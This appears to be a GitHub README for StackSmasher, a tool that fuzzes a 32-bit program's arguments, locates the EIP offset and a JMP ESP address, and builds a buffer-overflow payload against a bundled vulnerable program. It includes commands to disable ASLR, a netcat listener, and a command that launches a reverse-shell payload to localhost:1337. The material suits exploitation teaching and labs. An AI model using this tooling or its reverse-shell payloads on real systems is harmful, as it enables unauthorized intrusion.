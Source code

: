 # StackSmasher

## Description
StackSmasher is an application which automatically performs a stack based buffer overflow on the target application. Currently it only supports attacking a vulnerable application through the application run time arguments. However, future modifications are to support various application inputs such as standard input and tcp input.

It will rerun the application many times to fuzz the input until a segmentation fault occurs. It will then find the offset of EIP, as well as the address of a JMP ESP instructions.

Finally it builds the final payload and outputs it.

## Modes
The application has two modes, verbose which outputs the information it has found as well as the exploit as a python script. The other mode is exploit mode which only outputs the exploit payload.

## Limitations
Various settings must be disabled for this to work including DEP, NX, and ASLR. ASLR needs to be done manually using the following script. This application also only works against 32 bit applications.

### Disable ASLR
```sh
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

### Enable ASLR
```sh
sudo bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
```

## Compiling

To compile the applications as 32 bit, you may need to install gcc-multilib.
```sh
sudo apt-get install gcc-multilib
```

Compile all applications.
```sh
make
```

## Running StackSmasher
### Verbose Mode
Running smasher in *verbose* mode with the prebuild payload (reverse shell on 127.0.0.1:1337) against the application *vulnerable*.

```sh
cd bin
chmod +x smasher vulnerable
./smasher verbose payload vulnerable
```

Example Output:
```sh
[-] Fuzzing EIP and finding JMP ESP...
[+] Found JMP ESP at 0x565561fe
[+] EIP found at offset 0x51e with length of 0x530
[+] python -c 'print("\x41\x41\...\xcd\x80\x00")'
```

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
cd bin
./vulnerable $(python -c 'print("\x41\x41...\xcd\x80\x00")')
```

### Exploit Mode
Running smasher in *exploit* mode with the prebuild payload (reverse shell on 127.0.0.1:1337) against the application *vulnerable*.

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
./vulnerable $(./smasher exploit payload vulnerable)
```

![StackSmasher](https://user-images.githubusercontent.com/31845045/108642265-06a30800-749c-11eb-88bb-40d9aa6c987b.png)
![Reverse Shell](https://user-images.githubusercontent.com/31845045/108642230-e4a98580-749b-11eb-8243-b90a4280ded4.png)
